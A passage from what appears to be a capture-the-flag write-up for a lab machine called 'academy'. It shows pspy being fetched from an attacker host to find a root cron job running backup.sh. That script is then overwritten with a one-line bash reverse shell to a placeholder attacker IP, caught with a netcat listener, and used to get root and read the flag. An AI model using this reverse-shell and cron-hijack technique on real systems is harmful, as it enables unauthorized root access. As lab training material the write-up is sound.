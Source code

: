 {: .box-note}
**Note:** In the Crontab, we didn’t see the **backup.sh** is scheduled to run. 

## Pspy-Scheduled Process Discovery

Download and move the [pspy](https://github.com/DominicBreuker/pspy) (64-bit big, static version) into the directory that’s hosting for the web application.  
Retrieve the pspy from the reverse shell session.
~~~
1. $ python3 -m http.server 80
2. wget http://<Attack_Machine_IP>/pspy64
3. chmod + pspy64
4. ./pspy64
~~~

> 2025/07/24 02:27:01 CMD: UID=0 PID=15914 \| /usr/sbin/CRON -f  
> 2025/07/24 02:27:01 CMD: UID=0 PID=15915 \| /usr/sbin/CRON -f  
> 2025/07/24 02:27:01 CMD: UID=0 PID=15916 \| /bin/sh -c /home/grimmie/backup.sh  
> 2025/07/24 02:27:01 CMD: UID=0 PID=15917 \| /bin/bash /home/grimmie/backup.sh  
> 2025/07/24 02:27:01 CMD: UID=0 PID=15919 \| /bin/bash /home/grimmie/backup.sh  
> 2025/07/24 02:27:01 CMD: UID=0 PID=15920 \| /bin/bash /home/grimmie/backup.sh  
> 2025/07/24 02:28:01 CMD: UID=0 PID=15921 \| /usr/sbin/CRON -f  
> 2025/07/24 02:28:01 CMD: UID=0 PID=15922 \| /usr/sbin/CRON -f  
> 2025/07/24 02:28:01 CMD: UID=0 PID=15923 \| /bin/sh -c /home/grimmie/backup.sh  
> 2025/07/24 02:28:01 CMD: UID=0 PID=15924 \| /bin/bash /home/grimmie/backup.sh  
> 2025/07/24 02:28:01 CMD: UID=0 PID=15925 \| /bin/bash /home/grimmie/backup.sh  

# Privilege Escalation
From the previous steps, we determine the backup.sh runs every minute. So we can insert the [one line bash reserve shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) into backup.sh.
~~~
1. grimmie@academy:~$ nano backup.sh  
 # Replace everything with `bash -i >& /dev/tcp/<Attacker_IP_Address>/8080 0>&1` 
2. $ nc -nvlp 8080  
 # Setup listener on attack machine
~~~
Once the shell is successfully triggered, we obtain root access to the target machine.
> connect to [192.168.182.135] from (UNKNOWN) [192.168.182.158] 48488  
> bash: cannot set terminal process group (16113): Inappropriate ioctl for device  
> bash: no job control in this shell  
> root@academy:\~# whoami  
> whoami root  
> root@academy:\~# cat flag.txt  
> cat flag.txt  
> Congratz you rooted this box !
